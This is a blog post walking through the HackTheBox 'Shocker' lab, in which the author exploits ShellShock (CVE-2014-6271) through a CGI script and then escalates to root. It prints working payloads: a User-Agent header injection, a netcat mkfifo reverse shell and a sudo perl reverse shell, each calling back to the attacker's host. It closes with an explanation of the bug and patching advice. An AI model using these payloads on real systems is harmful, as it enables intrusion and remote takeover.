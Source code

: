 ```yaml
---
layout: post
title: 'HackTheBox - Shocker'
date: 2018-02-18
author: Casey Mullineaux
cover: '/images/htb/shocker/htb-shocker-00.jpg'
tags: hackthebox
---
```


The box demonstrates the **ShellShock** vulnerability (also known as **bashdoor**) in the Unix bash shell that remained unknown by the general public for over 25 years, until it was disclosed on 24 September 2014.

This challenge was a great learning experience for me.

I was excited that all I needed to complete it was a solid understanding of both the vulnerability and knowledge of the fundamentals of how web requests are sent and received. I didn't need any fancy tools like `Metasploit` or custom exploit scripts downloaded from the internet - everything was done using only basic command line tools such as `curl`. 

# Hacking the box

1. [Reconnaissance](#recon)
2. [Enumeration](#enum)
3. [Exploitation](#exploit)
4. [Privilege escalation](#privesc)
5. [Deconstructing the hack](#deconstruct)

# <a name="recon"></a>Reconnaissance

I start this challenge off by making an educated guess. Judging by the name of the machine (shocker), I make the assumption that this challenge is focused on the **ShellShock** vulnerability. I set my initial focus to confirming that this system is vulnerable.

I start reading up on how ShellShock works and conclude I'm looking for the following things to confirm i'm on the right track:
* the existence of the **/cgi-bin** directory
* a script in that directory that runs a system command

# <a name="enum"></a> Enumeration
I start out with the basic nmap scan which reveals two open ports.

```bash 
nmap -sC -sV -A shocker 10.10.10.56
```

![htb-shocker-01](/images/htb/shocker/htb-shocker-01.png)

Focusing on **ShellShock**, I know I'm looking for executable scripts in the **cgi-bin** directory of the web server. I browse to /cgi-bin and receive a 403 - Forbidden. This is good news as a 403 indicates the directory exists, otherwise I would have been presented with a 404 (Not Found).

![htb-shocker-02-1](/images/htb/shocker/htb-shocker-02-1.png)

I grab a copy of the `/usr/share/wordlists/dirb/common_extensions.txt`, and remove any extensions that aren't an executable script. This leaves me with the following extensions.

* .cgi
* .php
* .pl
* .sh

I then used a file-based brute force attack on the **/cgi-bin** directory using `dirb` and my custom list of extensions. 

```bash
dirb http://10.10.10.56/cgi-bin -x ./extensions.txt 
```

![htb-shocker-03](/images/htb/shocker/htb-shocker-03.png)

As you can see by the timestamps, it took a little over 2 hours but it was worth it.

<p class="success">
    This attack reveals <b>cgi-bin/user.sh</b>.
</p>

I `curl` the page and get the following result.

```bash
root@kali:~/htb/shocker# curl http://10.10.10.56/cgi-bin/user.sh
Content-Type: text/plain

Just an uptime test script

 22:53:10 up 20 min,  0 users,  load average: 0.67, 0.60, 0.38
```

Leveraging what I learned about the ShellShock exploit in the reconnaissance phase, I know that I've got a script in the cgi-bin directory that runs a system command and returns it on a webpage - all the parameters needed to meet the profile for the vulnerability.

To exploit it, I need to craft a shell command in one of the HTTP headers that will be processed by the web server as an environment variable, which should result in the commands being executed on the remote system.

After setting up a netcat listener on my Kali host, I quickly create a test for ShellShock by attempting to send a ping command to my Kali system over port 1234.

```bash
curl -H 'User-Agent: () { :; }; /bin/bash -c 'ping -c 3 10.10.14.253:1234'' http://10.10.10.56/cgi-bin/user.sh
```

![htb-shocker-04](/images/htb/shocker/htb-shocker-04.png)

<p class="success">
    A successful response confirms this system is vulnerable to ShellShock.
</p>

# <a name="exploitat"></a> Exploitation

Using the [Pentest Monkey Reverse Shell Cheat Sheet](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) as a reference, I craft a user agent string to execute a reverse shell.

<p class="note">
    You can see here that the first 7 characters of the User-Agent is are the 'magic string' that exploits the ShellShock vulnerability.   
</p>

```bash
curl -H 'User-Agent: () { :; }; /bin/bash -c 'nc /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.253 1234 >/tmp/f''
```

![htb-shocker-05](/images/htb/shocker/htb-shocker-05.png)

<p class="success">
    A remote shell is returned successfully!
</p>


# <a name="privest"></a> Privilege escalation
Now that I have a shell, `sudo -l` shows me any commands that **shelly** can run with administrative permissions.

![htb-shocker-06](/images/htb/shocker/htb-shocker-06.png)

It looks here like we can run the `pearl` command as root without a password. Bingo!

Referencing the [Pentest Monkey Reverse Shell Cheat Sheet](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) once again, I create a `pearl` command that will return a shell on a different port. I set up a netcat listener on that port, and use `sudo` to execute the command as root.

```bash
sudo perl -e 'use Socket;$i="10.10.14.253";$p=1337;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

![htb-shocker-07](/images/htb/shocker/htb-shocker-07.png)

<p class="success">
    This successfully returns a root shell.
</p>


# <a name="deconstruct"></a>Deconstructing the hack

## Shellshock

<iframe type="text/html" width="100%" height="385" src="https://www.youtube.com/embed/aKShnpOXqn0" frameborder="0"></iframe>

Shellshock is a bug in the Unix bash shell that causes commands from environment variables to be executed unintentionally. If exploited, the vulnerabiltiy allows the attacker to remotely issue commands on the server as demonstrated in this post.

Although bash is not an internet facing service, it is often used by web applications to process information on the host and return the results back to the user. Under normal circumstances, the bash shell will take the input from the web application and store it as a text string within a variable. The process of storing all information as a literal string is a mechanism designed to prevent remote code execution.

The vulnerability known as ShellShock ([CVE-2014-6271](https://cve.mitre.org/cgi-bin/cvename.cgi?name=cve-2014-6271)) circumvents this safeguard. 

From Wikipedia:
> This original form of the vulnerability involves a specially crafted environment variable containing an exported function definition, followed by arbitrary commands. 
> Bash incorrectly executes the trailing commands when it imports the function. 
> 
> The vulnerability can be tested with the following command:
> ```env x='() { :;}; echo vulnerable' bash -c "echo this is a test"```

By prepending the 'magic string' of ```() { :; };``` to one of the HTTP headers, bash can be tricked into executing commands when the variable storing the header is read by the shell.

It is reported that attacks exploited Shellshock within hours of the initial disclosure by creating botnets of compromised computers to perform distributed denial of service (DDOS) attacks.

The most popular example of this is the **wopbot** botnet that began scanning the internet for vulnerable systems (including the United States Department of Defense), and launching DDOS attacks agains the well known content delivery service, Akamai.

## Mitigation

Since this bug exists within the Unix bash shell itself, the only mitigation is to ensure your system is patched against this vulnerability.

There are also [online tools available](https://pentest-tools.com/network-vulnerability-scanning/bash-shellshock-scanner) that allow you to test your websites to see if you are exposed to this vulnerabilty.



